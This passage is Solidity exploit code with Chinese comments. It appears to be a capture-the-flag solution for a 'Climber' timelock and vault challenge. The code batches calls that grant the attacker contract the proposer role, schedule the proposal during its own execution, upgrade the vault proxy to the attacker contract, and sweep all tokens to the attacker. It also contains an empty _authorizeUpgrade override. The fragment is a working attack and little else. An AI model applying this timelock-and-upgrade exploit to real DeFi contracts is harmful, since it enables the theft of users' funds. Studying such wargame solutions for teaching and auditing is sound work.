 ```
        dataElements[1]=abi.encodeWithSelector(AccessControl.grantRole.selector,timelock.PROPOSER_ROLE(),address(this));

        //进行schedule
        targets[2]=address(this);
        values[2]=0;
            dataElements[2] = abi.encodeWithSelector(
            attack6.scheduleProposal.selector
        );

        //升级climbervault,替换掉里面sweepFunds函数
        targets[3]=address(vaultProxyAddress);
        values[3]=0;
        dataElements[3]=abi.encodeWithSelector(UUPSUpgradeable.upgradeTo.selector,address(this));
        
        //把钱换过来
        targets[4]=address(vaultProxyAddress);
        values[4]=0;
        dataElements[4]=abi.encodeWithSelector(attack6.sweepFunds.selector);
       
       return (targets,values,dataElements);

}


       function scheduleProposal()external {
            (
            address[] memory targets,
            uint256[] memory values,
            bytes[] memory dataElements
        ) = buildProposal();
         timelock.schedule(targets, values, dataElements, 0);

       }

       function executeProposal() external {
         (
            address[] memory targets,
            uint256[] memory values,
            bytes[] memory dataElements
        ) = buildProposal();
         timelock.execute(targets, values, dataElements, 0);
       }
       function sweepFunds()external {
        token.transfer(attacker,token.balanceOf(address(this)));
       }

           function _authorizeUpgrade(address newImplementation) internal  override {}
       
}
```
